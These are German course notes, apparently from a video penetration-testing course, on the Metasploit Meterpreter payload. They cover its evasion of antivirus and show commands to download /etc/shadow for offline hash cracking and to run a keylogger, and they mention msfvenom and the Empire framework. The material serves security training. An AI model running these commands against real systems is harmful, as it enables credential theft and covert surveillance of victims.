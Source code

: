 meta interpreter (meterpreter) ist eins der killer features von metasploit. Ist eine payload die auf dem Opfersystem komplett im Arbeitsspeicher läuft. 

Meterpreter kann sich am Zielsystem vor AV Programmen verbergen und die Kommunikation verschlüsseln, außerdem können Module nachgeladen werden.

```
meterpreter > help
...
```

Video 165 Meterpreter in der Praxis

Zugriff auch auf das lokale Dateisystem z.B. über `lcd`, `lls`

Laden einer remote Datei:

```
meterpreter > cd /etc
meterpreter > help download
meterpreter > download shadow
```

Offline Angriff auf die Hashwerte wäre jetzt möglich.

Plaintext shells können keinen Editor starten. metapreter stellt hingegen vim zur Verfügung – über den Befehl edit. 

166. Meterpreter-Shell für Windows

`msfvenom` gehört zum Metasploitable Framework und ermöglicht das erstellen von Programmen mit beliebiger Payload.

...

Einfacher keylogger

```
keyscan_start
keyscan_dump
keyscan_stop
```

167. Externe Module in Meterpreter laden

```
load <TAB> <TAB>
...
```



## Empire Post Exploitation Framework

Wird über Meterpreter ins Opfersystem gebracht. 
